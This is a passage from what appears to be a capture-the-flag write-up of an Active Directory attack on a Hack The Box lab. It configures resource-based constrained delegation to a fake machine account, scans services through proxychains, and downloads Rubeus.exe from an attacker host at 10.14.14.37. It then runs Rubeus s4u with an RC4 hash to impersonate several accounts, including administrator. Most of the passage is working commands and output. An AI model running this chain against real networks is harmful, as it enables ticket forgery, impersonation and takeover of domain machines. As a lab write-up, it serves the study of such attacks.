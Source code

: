 Or it can be done simpler with the ActiveDirectory pwsh module:

```
PS > Add-WindowsFeature RSAT-AD-PowerShell
PS > Import-Module ActiveDirectory
PS > Set-ADComputer WEB -PrincipalsAllowedToDelegateToAccount fakemachine123$
PS > Get-ADComputer WEB -Properties PrincipalsAllowedToDelegateToAccount
DistinguishedName                    : CN=WEB,CN=Computers,DC=htb,DC=local
DNSHostName                          : web.htb.local
Enabled                              : True
Name                                 : WEB
ObjectClass                          : computer
ObjectGUID                           : efbfd654-c8a0-4825-9106-c519e02a825d
PrincipalsAllowedToDelegateToAccount : {CN=fakemachine123,CN=Computers,DC=htb,DC=local}
SamAccountName                       : WEB$
SID                                  : S-1-5-21-4266912945-3985045794-2943778634-1110
UserPrincipalName                    :
```

Now we are ready to take over WEB.htb.local with Rubeus. At this point I had no idea which user account I could impersonate and which service that user would have access to, so I tried all the users I found with 4 [SPNs](https://adsecurity.org/?page_id=183): CIFS, WSMAN, HTTP, HOST.

The services that were previously discovered on the WEB machine with Nmap:

```
root@kali:$ proxychains4 -q nmap -v -n -Pn -sT 192.168.3.202 -p53,80,88,135,139,389,443,445,464,593,636,1433,3268,3269,3389,5985,5986,9389 --open
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

As you can guess I succeeded with HTTP SPN service because the machine is called WEB :expressionless: The user account that appeared to have access to the web service was `lee`:

```
PS > (new-object net.webclient).downloadfile("http://10.14.14.37/Rubeus.exe", "c:\users\administrator\music\Rubeus.exe")
PS > .\Rubeus.exe hash /domain:htb.local /user:fakemachine123$ /password:P@ssw0rd!

PS > .\Rubeus.exe s4u /domain:htb.local /user:fakemachine123$ /rc4:217E50203A5ABA59CEFA863C724BF61B /impersonateuser:administrator /msdsspn:http/web.htb.local /ptt
[X] KRB-ERROR (13) : KDC_ERR_BADOPTION

PS > .\Rubeus.exe s4u /domain:htb.local /user:fakemachine123$ /rc4:217E50203A5ABA59CEFA863C724BF61B /impersonateuser:web$ /msdsspn:http/web.htb.local /ptt
[+] Ticket successfully imported!
PS > Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://web.htb.local
401 - Unauthorized: Access is denied due to invalid credentials.

PS > .\Rubeus.exe s4u /domain:htb.local /user:fakemachine123$ /rc4:217E50203A5ABA59CEFA863C724BF61B /impersonateuser:iis-svc /msdsspn:http/web.htb.local /ptt
[+] Ticket successfully imported!
PS > Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://web.htb.local
401 - Unauthorized: Access is denied due to invalid credentials.

PS > .\Rubeus.exe s4u /domain:htb.local /user:fakemachine123$ /rc4:217E50203A5ABA59CEFA863C724BF61B /impersonateuser:kalle /msdsspn:http/web.htb.local /ptt
[+] Ticket successfully imported!
PS > Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://web.htb.local
401 - Unauthorized: Access is denied due to invalid credentials.

```